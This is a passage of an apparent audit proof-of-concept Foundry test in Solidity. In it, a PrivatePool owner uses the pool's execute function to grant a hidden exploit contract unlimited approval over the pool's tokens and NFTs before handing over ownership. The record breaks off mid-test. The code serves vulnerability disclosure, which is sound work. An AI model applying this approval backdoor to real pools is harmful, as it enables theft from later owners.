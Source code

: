 ```solidity
    uint56 changeFee = 0;
    bytes32 merkleRoot = bytes32(0);
    bytes32 salt = bytes32(0);
    uint256 baseTokenAmount = 500e6;
    uint256[] tokenIds;
    uint256[] tokenWeights;
    PrivatePool.MerkleMultiProof proofs;

    function setUp() public {
        vm.startPrank(bob);
        privatePoolImplementation = new PrivatePool(address(factory), address(royaltyRegistry), address(stolenNftOracle));
        baseToken = new ERC20Example("USDC", "USDC", 6);


        for (uint256 i = 0; i < 5; i++) {
            milady.mint(address(bob), i);
            tokenIds.push(i);
        }
    }

    function test_exploit() public {

        // Approve all NFTs and baseToken to the Factory
        baseToken.approve(address(factory), type(uint256).max);
        milady.setApprovalForAll(address(factory), true);


        PrivatePool privatePool = factory.create(
            address(baseToken),
            address(milady),
            virtualBaseTokenReserves,
            virtualNftReserves,
            changeFee,
            feeRate,
            merkleRoot,
            true,
            false,
            salt,
            tokenIds,
            baseTokenAmount
        );

        // First Bob deploys the exploit contract
        privatePoolExploit = new PrivatePoolExploit(privatePool);


        // Then Bob approves the exploit contract to spend PrivatePool's baseToken and NFTs
        privatePool.execute(
            address(baseToken),
            abi.encodeWithSignature("approve(address,uint256)", address(privatePoolExploit), type(uint256).max)
        );

        privatePool.execute(
            address(nft),
            abi.encodeWithSignature("setApprovalForAll(address,bool)", address(privatePoolExploit), true)
        );


        // Bob sells the ownership of the PrivatePool to Alice (as an example just transfering the ownership)
```
